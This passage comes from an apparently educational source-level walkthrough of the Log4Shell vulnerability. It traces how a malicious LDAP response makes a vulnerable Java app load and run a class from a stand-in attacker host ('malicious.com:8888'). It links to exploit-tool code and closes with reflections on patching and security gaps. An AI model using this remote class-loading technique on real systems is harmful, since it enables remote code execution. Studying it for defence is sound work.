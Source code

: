 At this point, we haven't yet loaded the malicious class file from the attacker's server. This happens further down the `c_lookup` method where the parsed LDAP response parameters have been decoded into a set of attributes that parameterize a call to `DirectoryManager.getObjectInstance`:

https://sourcegraph.com/jdk@v11/-/blob/java.naming/com/sun/jndi/ldap/LdapCtx.java?L1114-1115

The `attrs` variable at this point contains a hash table with the following values:

```
objectClass: javaNamingReference
javaCodeBase: http://malicious.com:8888/
javaFactory: ExploitDLFzSVQjFv
javaClassName: foo
```

The `javaCodeBase`, `javaFactory`, and `javaClassName` values were all parsed from our malicious LDAP response. The `javaCodeBase` value tells the DirectoryManager to fetch the factory class `ExploitDLFzSVQjFv` from "http://malicious.com:8888", where our attacker service is ready to serve the generated malicious class.

https://sourcegraph.com/jdk@v11/-/blob/java.naming/javax/naming/spi/NamingManager.java?L165-176

Our attacker server receives the HTTP request for the class file and responds with the cached malicious class (`ExploitDLFzSVQjFv`) generated earlier from `CommandTemplate`:

https://sourcegraph.com/github.com/sickcodes/JNDIExploit/-/blob/src/main/java/com/feihong/ldap/HTTPServer.java?L92-108&subtree=true

Back in our vulnerable app, we receive the response and create a new instance of the malicious factory class `ExploitDLFzSVQjFv`:

https://sourcegraph.com/jdk@v11/-/blob/java.naming/javax/naming/spi/NamingManager.java?L179-180

It is here that the malicious code we received from the attacker server is run. In our case, that means by this point in the execution, the file `/tmp/pwned` has been created and the RCE has run successfully.


## Reflections: bridging gaps



This concludes our source-level walkthrough of the Log4Shell vulnerability. You now understand how the exploit works as well as anyone. So now what?

Well, there is much more work to be done beyond taking the immediate remediation steps and updating your dependencies to the latest versions. The Log4j vulnerability is a reminder that there are still significant gaps in the way we build software:

* The gap between the point in time when you learn about a vulnerability to the point in time when your code is fully patched. For many, this gap was not hours or days, but weeks that stretched into weekends and holidays.
* The gap between our heavy use of third-party dependencies and our shallow understanding of how those dependencies work. Before reading this post, how many developers were aware of Log4j's string interpolation or the myriad of lookup protocols supported by JNDI?
* The gap between source code availability and true source code accessibility. What fraction of your dependencies have you ever viewed the source code of?
* The gap between security and software engineers, who often work separately without close collaboration. If you're a security engineer, when was the last time you spent significant time reading application code? If you're an application engineer, when was the last time you reviewed your code with a security mindset?
